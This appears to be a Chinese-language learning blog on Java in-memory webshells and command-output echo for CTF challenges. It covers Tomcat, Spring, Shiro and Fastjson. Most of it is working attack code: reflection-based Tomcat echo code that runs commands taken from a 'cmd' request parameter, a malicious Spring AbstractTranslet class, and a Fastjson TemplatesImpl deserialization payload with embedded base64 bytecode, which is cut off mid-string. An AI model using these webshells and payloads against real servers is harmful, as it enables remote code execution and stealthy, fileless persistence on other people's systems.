






# 前言

对于内存马的学习可能会有一些浅显，我主要是为了CTF中java那些不出网的回显，至于一些基于代码的分析就不再那么详细，这篇文章主要是来记录一下利用过程和方法，对于后面动态注册内存马进行权限维持的话以后再去学习

# Java内存马

首先还是来了解一下java内存马到底是个什么东西，之前我们都听说过一句话木马之类的东西，但是内存马到底是什么呢

Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码，不会有文件落地，给检测带来巨大难度

在我看来，内存马可以分为两种，一种是直接获取回显的，另外一种就是动态注册一个内存马，达到权限维持的作用

其实从这里可以看出来，内存马的主要目的还是是用于权限维持的

## 如何实现webshell内存马

目标：访问任意url或者指定url，带上命令执行参数，即可让服务器返回命令执行结果

实现：以java为例，客户端发起的web请求会依次经过Listener、Filter、Servlet三个组件，我们只要在这个请求的过程中做手脚，在内存中修改已有的组件或者动态注册一个新的组件，插入恶意的shellcode，就可以达到我们的目的

这三个组件的生命周期和背景可以在https://www.freebuf.com/articles/web/274466.html看到，这里就不细细研究了

总而言之，在java web访问之前，也就是执行controller代码之前，会经过这三个组件的处理，然后我们通过一系列操作达到命令执行并且返回结果的目的

java当中内存马的类型又有很多

```
Filter 内存马
Servlet 内存马
Listener 内存马
Spring Controller 内存马
Spring Interceptor 内存马
Tomcat Valve 内存马
GlassFish Grizzly Filter 内存马
Java Agent 内存马
```

目前参考了几篇文章都是针对于tomcat的回显方法

比较常用的方式也是去获取request和response变量来构造回显

# Tomcat半通用回显

为什么叫半通用回显呢，因为这种方式并不适用于shiro框架，为什么的话在后面会提到

主要参考于**kingkk**师傅的文章https://xz.aliyun.com/t/7348#toc-0

前面也提到了，内存马是在访问web之前注入的，所以文章发现的方法也是写了一个最简单的命令，起一个spring-boot，然后通过实现controller前的调用栈来寻找可以注入的点

在controller写一个简单的demo

```
@ResponseBody
@RequestMapping("/test")
public String test(String input,HttpServletResponse response){
   System.out.println(response);
   return input;
}
```



进入断点后可以看到在实现controller前的调用栈

为了实现通用性，师傅专门去找到tomcat相关的代码，spring里面也自带了tomcat的包，其次就是找到哪里记录了request和response变量，为了获取到当前线程的请求信息，这个变量应该是一个ThreadLocal变量，除此之外，最好是一个static静态变量，否则我们还需要去获取那个变量所在的实例

最后师傅在org.apache.catalina.core.ApplicationFilterChain找到了符合要求的变量



接下来就是看这个类里面有没有记录request和response的操作了

很巧的是在调用栈当中的一个internalDoFilter方法中存在对这两个变量的操作，进行实例的储存



但是这里从断点的信息可以看到，这里的if条件为false，但是我们可以通过反射来修改它的值

整体的思路大概就是

1、反射修改`ApplicationDispatcher.WRAP_SAME_OBJECT`，让代码逻辑走到if条件里面

2、初始化`lastServicedRequest`和`lastServicedResponse`两个变量，默认为null

3、从`lastServicedResponse`中获取当前请求response，并且回显内容。

这里的反射和平常的有一点不太一样，因为不止是private属性，还有有个final属性需要修改

要利用`java.lang.reflect.Filed的modifiers`变量，例子如下

```
Class class1 = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
Field WRAP_SAME_OBJECT = class1.getDeclaredField("WRAP_SAME_OBJECT");
WRAP_SAME_OBJECT.setAccessible(true);
Field modifyFiled = Field.class.getDeclaredField("modifiers");
modifyFiled.setAccessible(true);
modifyFiled.setInt(WRAP_SAME_OBJECT,WRAP_SAME_OBJECT.getModifiers() & ~Modifier.FINAL);
```

这样就修改了原来的private final

对于下面的代码有一些注意的地方都写在了代码里面

```
@ResponseBody
    @RequestMapping("/testdemo")
    public String demo(String input,HttpServletResponse res) throws Exception{
        //获取变量
        Class class1 = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
        Field WRAP_SAME_OBJECT_FIELD = class1.getDeclaredField("WRAP_SAME_OBJECT");
        Field lastServicedRequestfield = class1.getDeclaredField("lastServicedRequest");
        Field lastServicedResponsefield = class1.getDeclaredField("lastServicedResponse");
        WRAP_SAME_OBJECT_FIELD.setAccessible(true);
        lastServicedRequestfield.setAccessible(true);
        lastServicedResponsefield.setAccessible(true);
        //修改final
        Field modifyFiled = Field.class.getDeclaredField("modifiers");
        modifyFiled.setAccessible(true);
        modifyFiled.setInt(WRAP_SAME_OBJECT_FIELD,WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
        modifyFiled.setInt(lastServicedRequestfield, lastServicedRequestfield.getModifiers() & ~Modifier.FINAL);
        modifyFiled.setInt(lastServicedResponsefield, lastServicedResponsefield.getModifiers() &~Modifier.FINAL);
        //初始化值
        boolean wrap_same_object = WRAP_SAME_OBJECT_FIELD.getBoolean(null);//getBoolean不是获取布尔值，而是以参数命名的系统属性存在时返回true
        ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestfield.get(null);//获取之前set存储的RhreadLocal对象
        ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponsefield.get(null);
        //获取cmd参数,这里为什么要这么写是因为当我们第一次运行的时候无法进入之前提到的那个if，那里加载的是在执行这里代码之前，所以我们要访问两次，第一次通过反射去修改值，第二次才能去获取到response
        String cmd = lastServicedRequest != null
                ? lastServicedRequest.get().getParameter("cmd")
                : null;
        if (!wrap_same_object || lastServicedResponse == null || lastServicedRequest == null) { //这里第一次运行的时候会进去，来设置我们需要设置的值
            lastServicedRequestfield.set(null, new ThreadLocal<>());
            lastServicedResponsefield.set(null, new ThreadLocal<>());
            WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);
        } else if (cmd != null) {
            //命令执行回显代码
            ServletResponse responseFacade = lastServicedResponse.get();
            responseFacade.getWriter().write(123);
            java.io.Writer w = responseFacade.getWriter();
            Field responseFiled = ResponseFacade.class.getDeclaredField("response");
            responseFiled.setAccessible(true);
            Response response = (Response) responseFiled.get(responseFiled);
            Field usingWriter = Response.class.getDeclaredField("usingWriter");
            usingWriter.setAccessible(true);
            usingWriter.set((Object) response, Boolean.FALSE);
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            w.write(output);
            w.flush();
        }
        return input;
    }
```

因为当我们第一次运行的时候无法进入之前提到的那个if，那里加载的是在执行这里代码之前，所以我们要访问两次，第一次通过反射去修改值，第二次才能去获取到response，所以要在cache记录我们的请求后，才能达到命令执行回显的效果



我们所做的就是在原本的输出内容前面，添加cmd参数执行之后的结果。

但是这在shiro的框架中却是行不通的

shiro的rememberMe功能，其实是shiro自己实现的一个filter

这里我就直接引用kingkk师傅的原文了

在`org.apache.catalina.core.ApplicationFilterChain`的`internalDoFilter`中(省略一些无用的代码)

```
if (pos < n) {
    ApplicationFilterConfig filterConfig = filters[pos++];
    try {
        Filter filter = filterConfig.getFilter();
        ...
         filter.doFilter(request, response, this);
    } catch (...)
        ...
    }
    return;
}

// We fell off the end of the chain -- call the servlet instance
try {
    if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
        lastServicedRequest.set(request);
        lastServicedResponse.set(response);
    }

    if (request.isAsyncSupported() && !servletSupportsAsync) {
        request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR,
                             Boolean.FALSE);
    }
    // Use potentially wrapped request from this point
    if (...){
        ...
    } else {
        servlet.service(request, response);
    }
} catch (...) {
    ...
} finally {
    ...
}
```

可以看到是先取出所有的的filter对当前请求进行拦截，通过之后，再进行cache request，再从`servlet.service(request, response)`进入jsp的逻辑代码。

rememberMe功能就是ShiroFilter的一个模块，这样的话在这部分逻辑中执行的代码，还没进入到cache request的操作中，此时的cache内容就是空，从而也就获取不到我们想要的response

# Tomcat通用回显

之前是kingkk寻找回显的版本，在另外一篇https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3，Litch1师傅通过调用栈找到了另外的Tomcat全局全局存储的request和response变量

具体的流程我就不分析了，还是回到最开始的目的，就是使用这个东西，流程可以去https://www.cnblogs.com/nice0e3/p/14891711.html#0x01-tomcat%E9%80%9A%E7%94%A8%E5%9B%9E%E6%98%BE看看

最后的代码贴出来

```
@ResponseBody
    @RequestMapping("/tomcatecho")
    public void tomcatecho(HttpServletRequest request, HttpServletResponse response) throws Exception{
        org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

        try {
            Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext ApplicationContext = (ApplicationContext)context.get(standardContext);
            Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
            service.setAccessible(true);
            StandardService standardService = (StandardService)service.get(ApplicationContext);
            Field connectors = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
            connectors.setAccessible(true);
            Connector[] connector = (Connector[])connectors.get(standardService);
            Field protocolHandler = Class.forName("org.apache.catalina.connector.Connector").getDeclaredField("protocolHandler");
            protocolHandler.setAccessible(true);
//            AbstractProtocol abstractProtocol = (AbstractProtocol)protocolHandler.get(connector[0]);


            Class<?>[] AbstractProtocol_list = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredClasses();

            for (Class<?> aClass : AbstractProtocol_list) {
                if (aClass.getName().length()==52){

                    java.lang.reflect.Method getHandlerMethod = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler",null);
                    getHandlerMethod.setAccessible(true);

                    Field globalField = aClass.getDeclaredField("global");
                    globalField.setAccessible(true);
                    org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) globalField.get(getHandlerMethod.invoke(connector[0].getProtocolHandler(), null));
                    Field processors = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
                    processors.setAccessible(true);
                    java.util.List<RequestInfo> RequestInfo_list = (java.util.List<RequestInfo>) processors.get(requestGroupInfo);
                    Field req = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
                    req.setAccessible(true);
                    for (RequestInfo requestInfo : RequestInfo_list) {
                        org.apache.coyote.Request request1 = (org.apache.coyote.Request )req.get(requestInfo);
                        org.apache.catalina.connector.Request request2 = ( org.apache.catalina.connector.Request)request1.getNote(1);
                        org.apache.catalina.connector.Response response2 = request2.getResponse();
                        response2.getWriter().write("111");
                        InputStream whoami = Runtime.getRuntime().exec("whoami").getInputStream();
                        BufferedInputStream bis = new BufferedInputStream(whoami);
                        int b ;
                        while ((b = bis.read())!=-1){
                            response2.getWriter().write(b);
                        }
                    }
                }
            }

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        }
    }
```

# 对于yso的改造

一般在反序列化中我们都是用ysoserial来生成exp的，对于这些tomcat的回显方式添加进去肯定是有大的升华，各位师傅对ysoserial的改造也是开源了的，Litch1师傅甚至解决了tomcat对于request header的大小限制问题，因为在shiro的反序列化是通过RememberMe的cookie反序列化的，长度是有限制的（在4ra1n师傅的b站视频也提到了这个问题）

这里主要是先对各位师傅的yso下载下来的编译踩坑写一个注意，编译报错可能是这里

```
<repositories>
   <repository>
      <id>jenkins</id>
      <layout>default</layout>
      <url>https://repo.jenkins-ci.org/public/</url>
   </repository>
</repositories>
```

各位师傅写的http在编译的时候会报错

还有Litch1师傅的yso命令执行的方式需要添加headers



# Spring通用回显

```
package com.example.spring.webshell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Method;
import java.util.Scanner;

@SuppressWarnings("unchecked")
public class SpringEcho extends AbstractTranslet {
    public SpringEcho() throws Exception{
        try {
            Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method m = c.getMethod("getRequestAttributes");
            Object o = m.invoke(null);
            c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            m = c.getMethod("getResponse");
            Method m1 = c.getMethod("getRequest");
            Object resp = m.invoke(o);
            Object req = m1.invoke(o); // HttpServletRequest
            Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader", String.class);
            getHeader.setAccessible(true);
            getWriter.setAccessible(true);
            Object writer = getWriter.invoke(resp);

            String[] commands = new String[3];
            String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK" : "UTF-8";
            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
                commands[0] = "cmd";
                commands[1] = "/c";
            } else {
                commands[0] = "/bin/sh";
                commands[1] = "-c";
            }
            commands[2] = "whoami";
            writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(), charsetName).useDelimiter("\\A").next());
            writer.getClass().getDeclaredMethod("flush").invoke(writer);
            writer.getClass().getDeclaredMethod("close").invoke(writer);
        }
        catch (Exception e){
        }

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```


# Shiro回显测试

对于shiro的回显，可以参考4ra1n的b站视频

https://www.bilibili.com/video/BV1sF411q754?spm_id_from=333.337.search-card.all.click

在https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3的文章里面也有相应的演示

# Fastjson反序列化回显

目前公开且较为通用的不出网利用链有两条。

> ```
> com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
> org.apache.tomcat.dbcp.dbcp2.BasicDataSource
> ```

利用链及版本

| Payload         | PayloadType | Dependencies                                       |
| --------------- | ----------- | -------------------------------------------------- |
| BasicDataSource | local       | tomcat-dbcp:7.x, tomcat-dbcp:9.x, commons-dbcp:1.4 |
| JdbcRowSetImpl  | jndi        | Fastjson 1.2.47及以下                              |
| TemplatesImp    | local       | need Feature.SupportNonPublicField                 |

这里就主要记录一个利用方式，在看关于fastjson反序列化回显的时候无意间看到了许多关于fastjson的小知识，再加上反序列化回显，决定另外开一篇文章专门对fastjson进行一个查漏补缺

其实可以发现，这些能够构造回显的都有一个通用的特性那就是最后都加载了恶意类，这样才能够注入我们的内存webshell达到回显的目的

恶意类就用Spring通用回显生成吧

```
package com.example.spring.webshell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Method;
import java.util.Scanner;

@SuppressWarnings("unchecked")
public class SpringEcho extends AbstractTranslet {
    public SpringEcho() throws Exception{
        try {
            Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method m = c.getMethod("getRequestAttributes");
            Object o = m.invoke(null);
            c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            m = c.getMethod("getResponse");
            Method m1 = c.getMethod("getRequest");
            Object resp = m.invoke(o);
            Object req = m1.invoke(o); // HttpServletRequest
            Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader", String.class);
            getHeader.setAccessible(true);
            getWriter.setAccessible(true);
            Object writer = getWriter.invoke(resp);

            String[] commands = new String[3];
            String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK" : "UTF-8";
            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
                commands[0] = "cmd";
                commands[1] = "/c";
            } else {
                commands[0] = "/bin/sh";
                commands[1] = "-c";
            }
            commands[2] = "whoami";
            writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(), charsetName).useDelimiter("\\A").next());
            writer.getClass().getDeclaredMethod("flush").invoke(writer);
            writer.getClass().getDeclaredMethod("close").invoke(writer);
        }
        catch (Exception e){
        }

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

## templatesImpl链

payload

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQApAoAMQBFCgBGAEcKAEYASAgASQoASgBLCABMBwBNCgAHAE4HAE8KAFAAUQgAUggAUwgAVAgAVQgAVgoABwBXCABYCABZBwBaCgBQAFsIAFwKAF0AXgoAEwBfCABgCgATAGEIAGIIAGMKABMAZAgAZQgAZggAZwgAaAgAaQgAagoACQBrCABsBwBtCgBuAG8KAG4AcAoAcQByCgAlAHMIAHQKACUAdQoAJQB2CAB3CAB4BwB5BwB6BwB7AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEADVN0YWNrTWFwVGFibGUHAHoHAE0HAHwHAE8HAH0HAFoHAHkBAApFeGNlcHRpb25zAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWBwB+AQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEAClNvdXJjZUZpbGUBAA9TcHJpbmdFY2hvLmphdmEMADIAMwcAfwwAgACBDACCAIMBADxvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuUmVxdWVzdENvbnRleHRIb2xkZXIHAIQMAIUAhgEAFGdldFJlcXVlc3RBdHRyaWJ1dGVzAQAPamF2YS9sYW5nL0NsYXNzDACHAIgBABBqYXZhL2xhbmcvT2JqZWN0BwB8DACJAIoBAEBvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuU2VydmxldFJlcXVlc3RBdHRyaWJ1dGVzAQALZ2V0UmVzcG9uc2UBAApnZXRSZXF1ZXN0AQAdamF2YXguc2VydmxldC5TZXJ2bGV0UmVzcG9uc2UBAAlnZXRXcml0ZXIMAIsAiAEAJWphdmF4LnNlcnZsZXQuaHR0cC5IdHRwU2VydmxldFJlcXVlc3QBAAlnZXRIZWFkZXIBABBqYXZhL2xhbmcvU3RyaW5nDACMAI0BAAdvcy5uYW1lBwCODACPAJAMAJEAkgEABndpbmRvdwwAkwCUAQADR0JLAQAFVVRGLTgMAJUAkgEAA1dJTgEAA2NtZAEAAi9jAQAHL2Jpbi9zaAEAAi1jAQAGd2hvYW1pDACWAJcBAAdwcmludGxuAQARamF2YS91dGlsL1NjYW5uZXIHAJgMAJkAmgwAmwCcBwCdDACeAJ8MADIAoAEAAlxBDAChAKIMAKMAkgEABWZsdXNoAQAFY2xvc2UBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAmY29tL2V4YW1wbGUvc3ByaW5nL3dlYnNoZWxsL1NwcmluZ0VjaG8BAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9UaHJlYWQBAA1jdXJyZW50VGhyZWFkAQAUKClMamF2YS9sYW5nL1RocmVhZDsBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQAVamF2YS9sYW5nL0NsYXNzTG9hZGVyAQAJbG9hZENsYXNzAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwEACWdldE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBABFnZXREZWNsYXJlZE1ldGhvZAEADXNldEFjY2Vzc2libGUBAAQoWilWAQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBAAt0b0xvd2VyQ2FzZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoBAAt0b1VwcGVyQ2FzZQEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAqKExqYXZhL2lvL0lucHV0U3RyZWFtO0xqYXZhL2xhbmcvU3RyaW5nOylWAQAMdXNlRGVsaW1pdGVyAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS91dGlsL1NjYW5uZXI7AQAEbmV4dAAhADAAMQAAAAAAAwABADIAMwACADQAAAI/AAkADAAAAWoqtwABuAACtgADEgS2AAVMKxIGA70AB7YACE0sAQO9AAm2AApOuAACtgADEgu2AAVMKxIMA70AB7YACE0rEg0DvQAHtgAIOgQsLQO9AAm2AAo6BRkELQO9AAm2AAo6BrgAArYAAxIOtgAFEg8DvQAHtgAQOge4AAK2AAMSEbYABRISBL0AB1kDEhNTtgAQOggZCAS2ABQZBwS2ABQZBxkFA70ACbYACjoJBr0AEzoKEhW4ABa2ABcSGLYAGZkACBIapwAFEhs6CxIVuAAWtgAcEh22ABmZABIZCgMSHlMZCgQSH1OnAA8ZCgMSIFMZCgQSIVMZCgUSIlMZCbYAIxIkBL0AB1kDEhNTtgAQGQkEvQAJWQO7ACVZuAAmGQq2ACe2ACgZC7cAKRIqtgArtgAsU7YAClcZCbYAIxItA70AB7YAEBkJA70ACbYAClcZCbYAIxIuA70AB7YAEBkJA70ACbYAClenAARMsQABAAQBZQFoAC8AAgA1AAAAcgAcAAAADgAEABAAEAARABsAEgAlABMAMQAUADwAFQBIABYAUwAXAF8AGAB1ABkAkAAaAJYAGwCcABwAqQAeAK8AHwDIACAA2AAhAN4AIgDnACQA7QAlAPMAJwD5ACg